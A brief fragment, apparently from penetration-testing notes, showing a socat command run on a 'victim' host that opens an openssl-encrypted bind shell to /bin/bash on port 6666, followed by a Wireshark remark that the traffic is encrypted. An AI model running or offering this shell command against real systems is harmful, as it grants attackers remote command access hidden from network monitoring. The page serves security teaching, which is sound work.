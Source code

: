 


Victim&#x20;

```bash
socat -d -d -v openssl-listen:6666,cert=bind.pem,fork,verify=0 exec:/bin/bash
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

### Wireshark

> Data is Encrypted Using openssl
